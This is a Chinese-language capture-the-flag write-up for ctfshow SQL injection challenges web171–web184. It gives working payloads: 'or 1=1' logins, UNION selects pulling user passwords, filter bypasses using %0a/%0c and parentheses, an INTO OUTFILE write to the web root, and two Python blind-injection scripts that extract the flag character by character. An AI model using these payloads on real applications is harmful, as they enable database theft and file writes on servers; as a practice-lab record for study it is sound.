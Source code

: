 ### web171

直接用万能密码  ： ' or 1=1 --+



### web172 

![image-20221123101922271](https://s2.loli.net/2022/11/24/2qSpLN8jeftZGil.png)

由于结果中不能带有flag，所以我们可以使用联合查询，直接查询密码，密码中不含flag



### web173

![image-20221123102141695](https://s2.loli.net/2022/11/24/rvFoV3Ob6n1u94M.png)

同上



### web174

![image-20221123102318570](https://s2.loli.net/2022/11/24/ul2hDG1EqwjrnaW.png)

此题忽略了flag和0-9数字，我们可以使用to_base64（）或hex（）函数编码，然后使用replace（）将数字0-9进行替换，最后将结果替换回来即可

也可以使用盲注

### web175

![image-20221124223650423](https://s2.loli.net/2022/11/24/k97TD5ymfzcr1H6.png)

此题目没有回显，可以采用时间盲注

写脚本跑一下：

![image-20221123110808841](https://s2.loli.net/2022/11/24/76mcb4WEx1pAPrl.png)



解法二：

使用写入文件，写到网站根目录

```
' union select 1,password from ctfshow_user5 into outfile "/var/www/html/a.txt"--+
```

<img src="https://s2.loli.net/2022/11/24/pJO6lLUzKj2o7Ga.png" alt="image-20221123111021130" style="zoom:25%;" />



### web176

直接使用万能密码： ' or 1=1 --+



### web177

这一题好像把空格和注释符 --+ 过滤了，

可以使用 %0a,%0b，%0c...，/**/等代替空格，%23代替注释

```
绕过空格姿势:(暂时只想起来这么多后面再补)
%09 %0a %0c %0b %0d /**/
```

```
0'%0aunion%0bselect%0a1,2,password%0afrom%0dctfshow_user%23
```

得到flag



### web178

```
1'%0aunion%0aselect%0a1,2,password%0cfrom%0actfshow_user%23
```

和上题类似



### web179

```
0'%0cunion%0cselect%0c1,2,password%0cfrom%0cctfshow_user%23
```

使用%0c代替空格，%0a，%09被过滤了



### web180

```
0'%0cunion%0cselect%0c1,group_concat(password),'3'%0cfrom%0cctfshow_user%0cwhere%0c'1
```

可以使用 --%0c 代替 --+达到注释的效果

该题目把注释符 %23  + 给注释了



### web181-182

![image-20221123114141680](https://s2.loli.net/2022/11/24/xVaWp9d8weSOJus.png)

该题把所有空格注释了，可以使用()去填充表达式，不使用空格

```
-1'or(id=26)and'1'='1    后面要使用and
```

也可以使用盲注



### web183

![image-20221123120717443](https://s2.loli.net/2022/11/24/apJ5kZGMseHwymB.png)

![image-20221123120231503](https://s2.loli.net/2022/11/24/tNnhUAmXoPYF5Id.png)

使用盲注

![image-20221124223612771](https://s2.loli.net/2022/11/24/PqTg5bwfZHG2Li6.png)

### web184

![image-20221123120703419](https://s2.loli.net/2022/11/24/hysda4fMonpRmUc.png)

此处没有过滤空格，过滤了where 单引号，双引号，

解法一：

使用右连接查询 right join:

```python
# @Author:Y4tacker
import requests

url = "http://f15ac2ca-94b7-4257-a52a-00e52ecee805.chall.ctf.show/select-waf.php"

flag = 'ctfshow{'
for i in range(45):
    if i <= 5:
        continue
    for  j in range(127):
        data = {
            "tableName": f"ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{i},1)regexp(char({j})))"
        }
        r = requests.post(url,data=data)
        if r.text.find("$user_count = 43;")>0:
            if chr(j) != ".":
                flag += chr(j)
                print(flag.lower())
                if chr(j) == "}":
                    exit(0)
                break

```



解法二：

使用group by 分组，然后使用having过滤，16进制代替字符串     盲注

```python
# -*- coding = utf-8 -*-
# @Time : 2022/11/19 21:23
# @Author : LIKE
# @File : web184.py
# @Software : PyCharm

import requests

url = 'http://4abca1ef-10dc-4717-a183-9f9667d1ed59.challenge.ctf.show/select-waf.php'
flag = 'ctfshow{'
word = '0123456789abcdefghijklmnopqrstuvwxyz-{}'


def str_to_hex(str):
    rel = ""
    for s in str:
        temp = hex(ord(s)).replace('0x', '')
        rel += temp
    return rel


for i in range(0, 100):
    for j in word:
        data = {
            'tableName': "ctfshow_user group by pass having pass like {}".format("0x" + str_to_hex(flag + j + "%"))
        }
        text = requests.post(url=url, data=data).text
        if '$user_count = 1;' in text:
            flag += j
            print(flag)
            if j == '}':
                exit(0)

```

